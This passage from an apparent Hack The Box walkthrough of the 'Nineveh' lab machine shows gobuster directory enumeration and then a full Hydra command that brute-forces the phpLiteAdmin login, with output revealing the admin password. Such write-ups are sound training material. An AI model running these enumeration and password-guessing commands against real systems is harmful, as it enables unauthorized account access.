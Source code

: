```text
===============================================================
2020/06/22 16:44:39 Starting gobuster
===============================================================
https://10.10.10.43/db (Status: 301)
https://10.10.10.43/server-status (Status: 403)
https://10.10.10.43/secure_notes (Status: 301)
===============================================================
2020/06/22 16:50:50 Finished
===============================================================
```

Two interesting folders found, have a look at /db first:

![website_phpliteadmin_login](/assets/images/2020-06-24-21-58-35.png)

Another login page, worth trying Hydra again with the same 100k password list:

```text
root@kali:~/htb/nineveh# hydra -t 64 -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password."

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-22 16:52:37
[DATA] max 64 tasks per 1 server, overall 64 tasks, 100011 login tries (l:1/p:100011), ~1563 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password.
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-22 16:52:50
```

We get in to the admin page:

![phpliteadmin_successful_login](/assets/images/2020-06-24-21-59-07.png)
